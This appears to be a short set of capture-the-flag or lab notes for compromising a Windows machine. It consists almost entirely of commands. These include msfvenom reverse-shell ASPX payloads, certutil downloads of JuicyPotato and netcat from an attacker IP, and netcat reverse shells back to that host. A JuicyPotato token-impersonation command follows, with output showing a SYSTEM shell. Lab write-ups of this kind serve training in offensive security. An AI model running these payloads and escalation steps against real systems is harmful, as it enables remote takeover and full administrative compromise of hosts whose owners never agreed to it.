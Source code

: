 ### FTP send just like HTTP put. x64 and x86 payloads
```
msfvenom -p windows/x64/reverse_tcp LHOST=10.10.17.x LPORT=4242 -f aspx -o shell.aspx
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.17.x LPORT=4242 -f aspx -o shell2.aspx
```

### whoami /priv, easy win
```
certutil -urlcache -f http://10.10.17.x/JuicyPotato.exe JuicyPotato.exe
certutil -urlcache -f http://10.10.17.x/nc.exe nc.exe
```

### Not working for x86 platform
```
JuicyPotato.exe
nc.exe -e cmd.exe 10.10.17.73 1234
```

### Get the x86 version
```
certutil -urlcache -f http://10.10.17.73/Juicy.Potato.x86.exe Juicy.Potato.x86.exe
Juicy.Potato.x86.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\temp\nc.exe -e cmd.exe 10.10.17.73 6789" -t *
rlwrap -cAr nc -lvnp 6789
```

### rooted
```
Juicy.Potato.x86.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\temp\nc.exe -e cmd.exe 10.10.17.73 6789" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```